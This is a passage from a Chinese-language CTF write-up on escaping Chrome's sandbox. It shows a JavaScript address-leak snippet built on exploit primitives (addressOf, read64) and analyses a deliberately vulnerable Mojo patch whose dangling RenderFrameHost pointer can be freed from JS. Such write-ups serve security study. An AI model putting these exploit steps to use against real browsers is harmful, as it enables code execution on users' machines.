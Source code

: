 ```
var window_addr = addressOf(window);
chrome_dll_base = read64(window_addr+0x10n) - 0x7e86298n;
console.log("chrome_dll_base=0x" + chrome_dll_base.toString(16));
```



## 0x03 沙箱逃逸Mojo部分

### <a class="reference-link" name="%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90"></a>漏洞分析

```
+void RenderFrameHostImpl::CreateAntNest(
+    mojo::PendingReceiver&lt;antctf::mojom::AntNest&gt; receiver) `{`
+  mojo::MakeSelfOwnedReceiver(std::make_unique&lt;AntNestImpl&gt;(this),
+                                std::move(receiver));
+`}`
```

在`CreateAntNest`创建实例时，使用`std::make_unique&lt;AntNestImpl&gt;(this)`，创建了一个`AntNestImpl`对象，并使用`unique`智能指针进行管理，那么意味着这个`AntNestImpl`对象的生命周期与通信管道绑定了，在js层，我们可以通过`xxx.ptr.reset()`来手动释放。`this指针`也就是`RenderFrameHostImpl`对象的指针被保存于`AntNestImpl`对象中

```
+AntNestImpl::AntNestImpl(
+        RenderFrameHost* render_frame_host)
+        : render_frame_host_(render_frame_host)`{``}`
```

并且在`AntNestImpl::Store`和`AntNestImpl::Fetch`函数中，有调用`render_frame_host_`中的虚表函数

```
+void AntNestImpl::Store(const std::string &amp;data)`{`
+    size_t depth = render_frame_host_-&gt;GetFrameDepth();
+    if(depth == 0 || depth &gt; 10)`{`
+        return;
+    `}`
+    size_t capacity = depth * 0x100;
+    size_t count = capacity &lt; data.size() ? capacity : data.size();
+    
+    container_.emplace(
+        std::make_pair(depth, data.substr(0, count))
+    );
+`}`
+
+void AntNestImpl::Fetch(FetchCallback callback)`{`
+    size_t depth = render_frame_host_-&gt;GetFrameDepth();
+    if(depth == 0 || depth &gt; 10)`{`
+        std::move(callback).Run("error depth");
+        return;
+    `}`
+    auto it = container_.find(depth);
+    if(it == container_.end())`{`
+        std::move(callback).Run("not yet stored");
+        return;
+    `}`
+
+    std::move(callback).Run(it-&gt;second);
+`}`
```
